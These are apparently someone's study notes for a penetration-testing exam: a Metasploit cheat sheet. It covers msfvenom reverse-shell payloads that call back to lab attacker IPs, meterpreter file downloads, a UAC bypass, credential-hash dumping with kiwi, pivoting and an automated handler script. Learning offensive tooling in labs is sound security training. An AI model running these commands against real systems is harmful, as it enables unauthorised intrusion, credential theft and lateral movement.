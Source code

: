 # Metasploit Intro
- ``` msfconsole -q ``` quiet mode 
## Rules:
- Allow in ALL machines
    ```
    multi/handler
    msfvenom (excluding meterpreter payload),
    pattern_create 
    pattern_offset 
    ```
- Allow in SINGLE machines
  ```
    meterpreter
    auxiliary
    post
    exploit
    scan
  ```

## Basics
- ``` workspace -a {new workspace name}``` add | delete ``` -d ```
- ``` db_nmap ``` Nmap inside Metasploit 
- ``` hosts ``` list of all discovered hosts up to this point
- ``` services -p {port}``` show all discovered services

## Auxiliary Module (輔助)
- ``` search type:auxiliary {module name} ``` search
- ``` use {module_id} ``` load certain module
- ``` info ``` show info
- ``` show options ``` 
- ``` unset RHOSTS ``` reset param
- ``` run ```
- ``` vulns```

## Exploit Module
- ``` search type:exploit {module name} ``` search
- ``` set payload payload/linux/x64/shell_reverse_tcp ```
- when success will have shell created -> move to background with ctrl z
- show sessions in background ``` sessions -l ``` 
- kill sessions ``` session -k {id} ``` | ``` session -K ``` kill all
- reset workspace wont kill sessions
- Change target(OS) ``` set target {0 or 1} ``` 0 = unix | 1 = windows

# Payloads
## Staged vs Non-Staged
- ``` / ``` = Staged & ``` _ ``` Stagless for name
- Staged : 2 step to bypass AV (send smaller packet first, then smuggle the payload thru another step)
- Stageless : 1 step (large & one take) 

## meterpreter payload
- multiple cmd packaged for staged one & not directly have a Remote shell ( can do other stuff)
- ```  sysinfo ``` 
- ``` getuid ``` get UID lolll
- ``` shell ``` generate shell 
- ``` channel -l ``` show all active channel | ``` channel -i {id} ``` use certain channel
- ``` download /etc/passwd ``` = scp
- ``` lcat ``` = meterpreter version cat
- ``` upload /usr/bin/unix-privesc-check /tmp/ ``` = scp
- ``` ls {dir}``` = ls loll
- ``` search -f {fileName} ```
- ``` getsystem ``` auto priv esc
- ``` ps ``` show all process
- ``` bg ``` background the session
  
## Executable Payloads (exe,ps1,bin)
### msfvenom
- https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom 
- ``` msfvenom -l payloads --platform {windows/php/etc...} --arch x64 ``` show all payloads with criteria
- ``` msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe ``` example of generating payload

### metasploit handler in kali
- some payload req msf to connect & ncat cant handle
- ``` msf6> use multi/handler ```


# Post Exploit for windows
- Module = Post
## Migrate to other process
  1. throw reverse shell (``` msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.4 LPORT=443 -f exe -o met.exe ```) to victim 
  2. connect back kali by multi/handler e.g.(``` set payload windows/x64/meterpreter_reverse_https ```)
  3. try list all process ``` ps ```
  4. ``` migrate {pid} ``` sometimes not successful then try his parent(PPID) with same user 
## UAC
- ```msf6> search UAC ``` 
  1. once get the shell ``` meterpreter > shell ```
  2. windows ``` powershell -ep bypass ```
  3. check UAC level: ``` Import-Module NtObjectManager ``` then ``` Get-NtTokenIntegrityLevel ```
  4. useful UAC bypass : ``` use exploit/windows/local/bypassuac_sdclt ```
  5. bind to the session that we previous made ( can recheck with session list cmd ) then ``` set session {sid} ```

### Load mikikaze
  1. Req admin OR UAC High priv
  2. ``` load kiwi ``` load & ``` help ``` see all cmd 
  3. ``` creds_msv ``` get NTLM/SHA-1 hashs of users

### Use other post script for the session
 - e.g. enum hosts file
 - ``` use post/windows/gather/enum_hostfile ``` then bind to session we create before ``` set session {sid}```

## Pivoting 
### Manual route
- Check another ip in other subnet e.g. 172.16.155.18 -> subnet=172.16.155.0 (probably, need see /??)
- port forwardingset in routing table ``` route add 172.16.{subnet}.0/24 {session_id} ```
- print route table assigned ``` route print ```
- test with port scan module e.g. ``` use auxiliary/scanner/portscan/tcp ``` to see if routing success
- terminate all routes ``` route flush ``` | remove 1 only ``` route remove {ip}/24 {session_id} ```
  
### Auto Route (Part 1)
- ``` use multi/manage/autoroute ``` and then bind to the shell session we made before

### Proxy (Part 2)
- ``` use auxiliary/server/socks_proxy ``` & ``` set SRVHOST 127.0.0.1 ``` (only allow host to call seems more safe) & ``` set SRVPORT 9999 ```
-  edit ```/etc/proxychains4.conf``` to the one we set e.g. ``` socks5 {SRVHOST} {SRVPORT}``` (entry point of the proxy)
-  

# Auto fucking metasploit
- write all command of metasploit and save in a script with ruby : autoFuck.rc (maybe)
  e.g. 
    ```
      use exploit/multi/handler
      set PAYLOAD windows/meterpreter_reverse_https
      set LHOST 192.168.45.154
      set LPORT 6969
      set AutoRunScript post/windows/manage/migrate
      set ExitOnSession false
      run -z -j
    ```
- ``` sudo msfconsole -r {script name}.rc ```